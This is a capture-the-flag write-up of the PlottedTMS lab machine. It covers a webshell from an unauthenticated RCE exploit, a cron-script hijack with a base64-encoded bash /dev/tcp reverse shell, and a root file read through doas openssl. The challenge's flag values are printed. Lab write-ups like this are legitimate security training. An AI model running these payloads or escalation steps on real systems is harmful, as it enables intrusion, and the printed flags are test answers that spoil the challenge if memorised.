






## TL;DR

In this challenge we start with unauth `RCE` on endpoint `/management` we find. Then, we move to user `plot_admin` using cronjob.

Lastly, we achieve the root flag using doas on `openssl`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache http server and port `445` with apache http server
```bash
PORT    STATE SERVICE REASON         VERSION                                                                                                                 
22/tcp  open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                            
| ssh-hostkey:                                                                                                                                               
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDSk+lD9baengtZg1zPPR4SVHS2JWnI2fkH90VgBhh7iRQKND35/SOP13L/a3oDA3qub2FgT1ejvHA3D7wcY5ZCgq17mLXCw6WW0IDRWbH7kyPUBolc9h6
ZI+Zpiyr7sUitywYRW5WCrEHpUs6ol92pR46UnXfwmsuvY6RVWaviUT95xmUZPgVUpw8PJjDU3TJpCYEtnW6AoEO0/7OSx7LkbrvMCnIitZi2mcBvfc/WbCmvtiOLsKBwh21VCXUhLAzVGZ5xOdD4rAcD3OAC
M/gJVGe5wJJJL1Abt/1flGBJyvYZUoz/JQxoa+HpjcRXmSa+nprBxPdvmQDjsf+UPmpegVPME9iNfkmoEWDgN/lWWZnyPC8kBzhxkM8/rQkfmJlK1F9Lq60BoF6ipj6/W1O94yzaFL7+mNRFrV86zgZhbr1l9
MQyUcJoDnlCMygYo1HhkYsfGBR1Tu5M031sZpVNIEUSSfXwrlUX4k4ThaCPDsEMB941K/OUbAuhmQo2MGE=                                                                          
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMLlGKfQy13XGzOkqSgnrB7thrs/Bh+kpzchoHn6PCCBDOZ0j3uFzQWvl5uimdLDXombozAcFHlzDjGL50h
KarQ=                                                                                                                                                        
|   256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHs4NezobK71HOHpkwVK5b5LS0MgCghx1Oj4eld8ONa1                                                                           
80/tcp  open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))                                                                                          
| http-methods:                                                                                                                                              
|_  Supported Methods: HEAD GET POST OPTIONS                                                                                                                 
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                           
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                    
445/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))                                                                    
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                           
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                    
| http-methods:                                                                                                                        
|_  Supported Methods: HEAD GET POST OPTIONS                                                                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                
                                                                                                                                       
Host script results:                                                                                                                   
|_smb2-time: Protocol negotiation failed (SMB2)                                                                                        
| p2p-conficker:                                                                                                                       
|   Checking for Conficker.C or higher...                                                                                              
|   Check 1 (port 15266/tcp): CLEAN (Couldn't connect)                                                                                 
|   Check 2 (port 18458/tcp): CLEAN (Couldn't connect)                                                                                 
|   Check 3 (port 34486/udp): CLEAN (Failed to receive data)                                                                           
|   Check 4 (port 14598/udp): CLEAN (Failed to receive data)                                                                           
|_  0/4 checks are positive: Host is CLEAN or ports are blocked                                                                        
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
```

I added `plottedtms.thm` to my `/etc/hosts`

### Exploit unauth rce in /management endpoint to get shell

I tried to fuzz for the website at port `80`, all what I found was rabbit holes. Then, I fuzzed for port `445`, and found the endpoint `management`
```bash
┌──(agonen㉿kali)-[~/thm/PlottedTMS]
└─$ ffuf -u 'http://plottedtms.thm:445/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403                 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://plottedtms.thm:445/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

management              [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 152ms]
:: Progress: [20481/20481] :: Job [1/1] :: 230 req/sec :: Duration: [0:01:19] :: Errors: 0 ::
```


We can see this is `Traffic Offense Management System`. I googled for exploit and found this unauth `RCE` exploit [https://www.exploit-db.com/exploits/50221](https://www.exploit-db.com/exploits/50221)



Okay, it broke, however, we have the path for the webshell:
```bash
http://plottedtms.thm:445/management/uploads/1769445660_evil.php?cmd=id
```



Let's paste the payload from penelope and grab our reverse shell



### Move to user plot_admin using cronjob

I checked for `crontab` and saw user `plot_admin` is executing some script every minute that we can modify
```bash
www-data@plotted:/home/plot_admin$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   plot_admin /var/www/scripts/backup.sh
#
```

As you can see, we control the folder `/var/www/scripts`:
```bash
www-data@plotted:/home/plot_admin$ ls -la /var/www/scripts/
total 12
drwxr-xr-x 2 www-data   www-data   4096 Oct 28  2021 .
drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup.sh
```

So, let's remove this script and add new one with our penelope payload
```bash
www-data@plotted:/home/plot_admin$ rm /var/www/scripts/backup.sh
rm: remove write-protected regular file '/var/www/scripts/backup.sh'? y
www-data@plotted:/home/plot_admin$ echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzguNTkvNDQ0NCAwPiYxKSAm|base64 -d|bash' > /var/www/scripts/backup.sh
www-data@plotted:/home/plot_admin$ chmod +x /var/www/scripts/backup.sh
```

Now, we can wait for the reverse shell to come 



and grab the user flag:
```bash
plot_admin@plotted:~$ cat user.txt 
77927510d5edacea1f9e86602f1fbadb
```

### Privilege Escalation to Root using doas on openssl

I executed linpeas, we can see we're able to execute `openssl` as root using `doas`.
In order to find the config file of `doas`, we can execute the next command:
```bash
plot_admin@plotted:~$ find / -name "doas.conf" 2>/dev/null
/etc/doas.conf
```




We'll use [https://gtfobins.org/gtfobins/openssl/](https://gtfobins.org/gtfobins/openssl/) to find privilege escalation vectors.

I can achieve root shell, but I only want file read to get the root flag, so that's what I'm using.
```bash
plot_admin@plotted:~$ doas openssl enc -in /root/root.txt
Congratulations on completing this room!

53f85e2da3e874426fa059040a9bdcab

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
```

